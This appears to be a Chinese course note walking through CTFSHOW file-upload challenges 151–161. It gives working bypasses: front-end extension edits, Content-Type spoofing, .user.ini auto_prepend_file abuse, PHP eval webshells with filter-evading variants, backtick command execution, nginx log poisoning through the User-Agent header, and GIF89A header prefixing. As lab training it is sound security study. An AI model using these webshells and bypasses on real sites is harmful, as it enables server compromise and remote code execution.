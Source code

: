 # 第31天：WEB攻防-通用漏洞&amp;文件上传&amp;js验证&amp;mime&amp;user.ini&amp;语言特性

![1645426151764-1143fc72-04a6-4713-a0c0-baab30ef0270.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170502766-987239468.png)

```plain
#知识点：
1、文件上传-前端验证
2、文件上传-黑白名单
3、文件上传-user.ini妙用
4、文件上传-PHP语言特性

#详细点：
1、检测层面：前端，后端等
2、检测内容：文件头，完整性，二次渲染等
3、检测后缀：黑名单，白名单，MIME检测等
4、绕过技巧：多后缀解析，截断，中间件特性，条件竞争等

#本章课程内容：
1、文件上传-CTF赛题知识点
2、文件上传-中间件解析&编辑器安全
3、文件上传-实例CMS文件上传安全分析

#前置：
后门代码需要用特定格式后缀解析，不能以图片后缀解析脚本后门代码(解析漏洞除外)
如：jpg图片里面有php后门代码，不能被触发，所以连接不上后门
```

- CTFSHOW-文件上传-151到161关卡

------

```plain
151
查看源代码，看看是否有前台验证。
```

![1645434690208-5a42fd8a-5ce2-41bd-9529-e4d87265d141.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170529953-1688134651.png)

```plain
看到外部引用的JavaScript代码，进行进一步跟踪
```

![1645434619647-5847cb63-1e90-40e9-b0ba-2504cf18c6f2.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170529572-46454310.png)

```plain
发现过滤性代码：<button type="button" class="layui-btn" id="upload" lay-data="{url: 'upload.php', accept: 'images',exts:'png'}">
鼠标放在上传图片中，然后右键元素，对<button type="button" class="layui-btn" id="upload" lay-data="{url: 'upload.php', accept: 'images',exts:'png'}">进行修改，把png改为php，就可以进行文件上传php文件
```

![1645435604446-57571d16-e2db-492d-ab38-7e17b167bb3e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170530348-1111844205.png)

```plain
上传php代码后，进行flag的读取。查找flag位置：x=system('ls ../');
```

![1645436788252-e8ede98f-f057-4829-b60c-0a60f28083c0.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170530248-65908016.png)

```plain
读取flag：x=system('tac ../flag.php');
```

![1645436900341-661680cc-d55f-4623-861f-609e896c0142.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170530920-1456029950.png)

```plain
152
查看源代码，把png修改为php，发生文件类型不合规。
```

![1645437533406-42325c45-4377-439a-a3fd-e7a324aa164d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170532087-1748939806.png)

```plain
接着把Content-Type: application/octet-stream修改Content-Type: image/png类型，能够上传了php
```

![1645437637257-ecfb3a8b-b5b5-43b1-a5d1-88125657079c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170532989-494612340.png)

```plain
接着就是获取flag位置，读取flag
获取flag：x=system('ls ../');
读取flag：x=system('tac ../flag.php');
```

![1645437752891-1bd4c283-8882-4327-a750-3e718dd7bd53.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170532345-1535703370.png)

```plain
153
继续修改png和Content-Type的值，但是饶过不了了。
```

![1645439281885-5ca4cbe2-d0da-4e38-9364-a7b1e7f8b4c9.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170532817-1015434790.png)

```plain
思考：修改mime不生效，还有什么绕过方法：00截断，多文件格式后缀解析，大小写（但是提示下载），php5（提示下载），等。
这里我们使用的是.user.ini（与.htaccess类似，但是.htaccess搭建在Apache中才能使用。.user.ini是与PHP挂钩的。）
.user.ini解释：https://www.php.net/manual/zh/configuration.file.per-user.php
上传一个.user.ini，内容：auto_prepend_file=test.png
```

![1645443025268-d7b107e5-6aff-443d-9cf7-9bde6bb69b4a.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170532033-131020982.png)

```plain
接着上传png，写上后门代码：<?php eval($_POST['x']);?>
```

![1645443381183-01642018-29dd-45c2-8353-1f419f11d17b.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170532335-1348981170.png)

```plain
然后访问：upload目录，查看flag位置：x=system('ls ../');
读取flag：x=system('tac ../flag.php');
```

![1645443603401-e3c8b62c-9e92-4db1-8a0c-6efca17d34c1.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170532690-2018063366.png)

```plain
.user.ini的利用条件看似看简单，上传一个.user.ini，包含一个文件，上传文件就可以利用。但是这个需要一个指向性文件index.php，调用.user.ini，使.user.ini生效。访问并不是访问.user.ini和test.png，而是访问一个index.php文件（首先指向文件）。参考https://blog.csdn.net/z13615480737/article/details/89084360
154，155
上传.user.ini：auto_prepend_file=test.png
```

![1645444213217-2f6b3a79-ad00-4788-8a20-19a88a9d63be.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170533435-1652682523.png)

```plain
上传test.png：<?php eval($_POST['X']);?>
发现上传失败，对内容进行检测。
```

![1645444310496-bb5877c5-5544-4808-ba7a-c9506375d6bb.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170533007-709747647.png)

```plain
经过删除测试，对<?php进行了过滤。
那么如何绕过这个内容过滤呢，后门代码应该怎么执行呢。
能不能不写<?php也能执行出php代码效果？
下面这几种都是可以的：
<? echo '123';?>               //前提是开启配置参数short_open_tags=on
<?=(表达式)?>                  //不需要开启参数设置
<% echo '123';%>               //前提是开启配置参数asp_tags=on
<script language=”php”>echo '1'; </script>   //不需要修改参数开关
选择第二种写法<?=eval($_POST['x']);?>
```

![1645444807844-174defae-6a0d-4944-9509-687d63b5f8a2.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170532969-1646415567.png)

```plain
然后访问：upload/index.php文件，查看flag位置：x=system('ls ../');
读取flag：x=system('tac ../flag.php');
```

![1645444905259-280635c1-5354-4370-a0b9-37453e629b40.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170533812-852060894.png)

```plain
156
上传.user.ini和test.png
test.png：<?=eval($_POST['x']);?>存在过滤
```

![1645447071505-5dafaf06-1ee1-49f0-be2f-6db55add341e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170532731-1498380415.png)

```plain
删除测试，发现过滤了[]两个符号
php支持{}符号代替[]符号
<?=eval($_POST{'X'});>
```

![1645448847549-83fe32d0-793e-4cda-9be3-23fac9b2257e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170532763-801433570.png)

```plain
然后访问：upload/index.php文件，查看flag位置：x=system('ls ../');
读取flag：x=system('tac ../flag.php');
157 158
上传.user.ini：auto_prepend_file=test.png
上传test.png：<?=eval($_POST{'X'});>
test.png对内容进行了检测
对分号进行过滤，那么想不要分号能不能执行语句。那么可以直接调用来执行。

可以直接上传读取文件的代码：<?=system('tac ../fl*')?>
```

![1645448847549-83fe32d0-793e-4cda-9be3-23fac9b2257e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170533365-93366367.png)

```plain
直接访问/upload/index.php
```

![1645448914873-eacd41ab-5246-4ff2-80cc-52bc58e83c67.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170532786-2082526565.png)

```plain
159
上传.user.ini：auto_prepend_file=test.png
上传test.png：<?=system('tac ../fl*')?>
发现<?=system('tac ../fl*')?>进行了过滤()
直接用反引号来进行命令执行`
这样构造payloa：<?`tac ../f*?>
```

![1645451203140-97c5a65a-9766-4748-8805-3e093d82be2e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170533845-852556267.png)

```plain
这样读取是不可以的，需要加上flag的相对路径，<? echo `tac /var/www/html/f*`?> 访问upload就可以获取flag
160
上传.user.ini：auto_prepend_file=test.png
上传test.png：<? echo `tac /var/www/html/f*`?>
发现对test.png 的内容进行了过滤`

这次关卡用到的是包含日志性文件，日志里面会记录访问者的信息：ua头，访问地址，访问ip 等。
运行linux nginx的日志路径：/var/log/nginx/access.log
包含日志文件：test.png
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

![1645492886601-221f37a4-823f-4ffe-acac-991725f80064.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170534907-820710609.png)

```plain
发现日志文件会记录ua头信息，在UA头中写入后门代码<?php eval($_POST['x']);?>
```

![1645495821253-450d0b0f-c9fb-4a54-b506-3a6ea550fa74.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170534040-650721426.png)

```plain
161
上传.user.ini,直接被拦截
```

![1645496045751-3e1aacee-5a42-4f90-9ef8-d301f72b584a.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170533160-667067544.png)

```plain
换正常的图片看看能不能上传，发现是文件头过滤，在代码上加上GIF89A
```

![1645496390228-76feab64-c5eb-4822-8bb2-4682c7a67151.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170533862-531516540.png)

```plain
上传png：GIF89A <?=include"/var/lo"."g/nginx/access.lo"."g"?>
访问upload，修改UA头，写上后门代码。就可以读取flag
```

![1645497185471-e3c9f7fc-2748-4365-9d99-25a841d1b273.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170540089-293480735.png)